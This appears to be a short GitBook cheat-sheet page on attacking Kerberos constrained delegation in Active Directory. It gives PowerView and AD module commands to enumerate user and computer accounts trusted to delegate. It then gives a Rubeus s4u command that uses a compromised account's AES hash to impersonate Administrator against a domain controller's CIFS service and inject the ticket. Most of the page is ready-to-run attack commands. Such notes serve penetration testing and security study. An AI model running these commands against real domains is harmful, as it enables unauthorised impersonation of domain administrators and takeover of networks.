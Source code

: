 <figure><img src=".gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Requirement

* ❗ If you can compromise the account mentioned in Get-DomainUser -TrustedToAuth, you can access the service mentioned in msds-allowedtodleegateto as ANY user, including DA
* ❗ No Request/Connection from DA to the Host is required!
* Access to the service account - it is then possible to access services listed in the msDS-AllowedToDelegateTo as _**ANY**_ user, including Domain Administrators
* No waiting
* Compromised machine with high privileges shell or request a TGT for the machine account

### Tool&#x20;

&#x20;**1. Enumerate users and computers with constrained delegation enabled - with PowerView**

{% code overflow="wrap" %}
```powershell
Get-DomainUser -TrustedToAuth      => For Useraccounts - Problem 1
Get-DomainComputer -TrustedToAuth  => For Computeraccounts - Problem 2

If result contains useraccountcontrol:Trusted_to_auth_for_delegation => this account can be used.
```
{% endcode %}

With ActiveDirectory Module

{% code overflow="wrap" %}
```powershell
Get-ADObject -filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTO
```
{% endcode %}

**❗Problem 1: Step 2, 3, 4 together (TGT & TGS) with Rubeus**

{% code overflow="wrap" %}
```
rubeus.exe s4u /user:username-with-constrained-delegation-enabled-user-or-machine-acc /aes256:hash-of-user /impersonateuser:Administrator /msdsspn:CIFS/dc.dom.loacl(asShownInGet-DomainUser) /ptt
```
{% endcode %}
